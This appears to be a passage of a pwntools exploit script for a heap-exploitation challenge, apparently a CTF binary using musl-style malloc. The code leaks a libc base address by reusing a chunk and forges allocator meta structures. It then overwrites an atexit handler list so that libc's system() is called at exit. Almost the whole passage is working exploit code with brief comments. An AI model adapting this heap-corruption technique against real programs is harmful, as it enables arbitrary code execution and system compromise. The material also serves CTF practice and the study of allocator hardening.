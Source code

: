 ```

#reuse chunkA to leak libc addr
Challenge([0], 'A'*0x10)
List()

sh.recvuntil('\xff'*16)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x297d20
Log('libc.address')

#add a challenge
Prepare()
Create([0x0]*3)        #idx:1
Bye()

#write secret to Result_Buf
Challenge(['golden', 1152, 'golden', 1145])

#forge meta 
Prepare()
for i in range(11):
    Create([0x0]*3)    #idx: [2, 13)
Bye()

def ForgeMeta(cont):
    cont = cont.ljust(0x2C, '\x00')
    print(len(cont))
    res = ['silver', 'silver']
    for i in range(0, len(cont), 4):
        res+=[u32(cont[i: i+4])]
    print(len(res))
    Challenge(res)

exp = flat(0)
exp+= flat(libc.address+0x297db0, libc.address+0x296d80)    # prev=chunk_15, next=head
exp+= flat(libc.address+0x297d50)    # mem
exp+= flat(0x3Fe)                    # avail_mask, freed_mask
exp+= p32(0xa9)                        # sizeclass
ForgeMeta(exp)

#malloc chunk in libc.so
Prepare()
Create([0x0]*10)        #13

#atexit
Create([0x0]*10)        #14

#forge atexit list
addr = libc.address+0x297db0-0x100+0x10    #head-&gt;next
exp = [addr&amp;0xFFFFFFFF, (addr&gt;&gt;32)]
exp+= [0, 0]
addr = libc.symbols['system']            #f[31]
exp+= [addr&amp;0xFFFFFFFF, (addr&gt;&gt;32)]
exp+= [0x15]*4
Create(exp)                #15

Create([0x16]*10)        #16
Create([0x17]*10)        #17

Create([0x18]*10)        #18
Create([0x19]*10)        #19

for i in range(5, 10):
    Delete(i)
```
